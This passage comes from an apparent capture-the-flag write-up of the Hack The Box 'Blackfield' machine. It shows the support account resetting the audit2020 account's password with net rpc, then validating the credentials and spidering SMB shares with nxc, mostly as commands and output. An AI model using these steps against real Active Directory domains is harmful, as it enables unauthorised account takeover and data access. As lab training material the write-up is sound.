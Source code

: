 ```bash
WARNING: DCE/RPC connection failed: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Done in 00M 06S
```

It seems that the account ***support*** can change the password of the account ***audit2020***:

![](blackfield_support_change_pass.png)

![](blackfield_bh_help.png)

![](blackfield_bh_change_pass.png)

```bash
# change user's password
$ net rpc password 'audit2020' 'p@ssw0rd!' -U "blackfield.local/support%#0<REDACTED>ht" -S dc01.blackfield.local

# confirm credentials
$ nxc smb 10.10.10.192 -u audit2020 -p 'p@ssw0rd!'
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:p@ssw0rd!
```

>_We can also change the user's password using [`rpcclient`](https://malicious.link/posts/2017/reset-ad-user-password-with-linux/)._

Check share access for ***audit2020***:

```bash
$ nxc smb 10.10.10.192 -u audit2020 -p 'p@ssw0rd!' --share forensic -M spider_plus
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:p@ssw0rd!
SPIDER_P... 10.10.10.192    445    DC01             [*] Started module spidering_plus with the following options:
SPIDER_P... 10.10.10.192    445    DC01             [*]  DOWNLOAD_FLAG: False
SPIDER_P... 10.10.10.192    445    DC01             [*]     STATS_FLAG: True
SPIDER_P... 10.10.10.192    445    DC01             [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_P... 10.10.10.192    445    DC01             [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_P... 10.10.10.192    445    DC01             [*]  MAX_FILE_SIZE: 50 KB
SPIDER_P... 10.10.10.192    445    DC01             [*]  OUTPUT_FOLDER: /tmp/nxc_spider_plus
SMB         10.10.10.192    445    DC01             [*] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share
SMB         10.10.10.192    445    DC01             profiles$       READ
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share
SPIDER_P... 10.10.10.192    445    DC01             [+] Saved share-file metadata to "/tmp/nxc_spider_plus/10.10.10.192.json".
SPIDER_P... 10.10.10.192    445    DC01             [*] SMB Shares:           7 (ADMIN$, C$, forensic, IPC$, NETLOGON, profiles$, SYSVOL)
SPIDER_P... 10.10.10.192    445    DC01             [*] SMB Readable Shares:  5 (forensic, IPC$, NETLOGON, profiles$, SYSVOL)
SPIDER_P... 10.10.10.192    445    DC01             [*] SMB Filtered Shares:  1
SPIDER_P... 10.10.10.192    445    DC01             [*] Total folders found:  368
SPIDER_P... 10.10.10.192    445    DC01             [*] Total files found:    725
SPIDER_P... 10.10.10.192    445    DC01             [*] File size average:    978.9 KB
```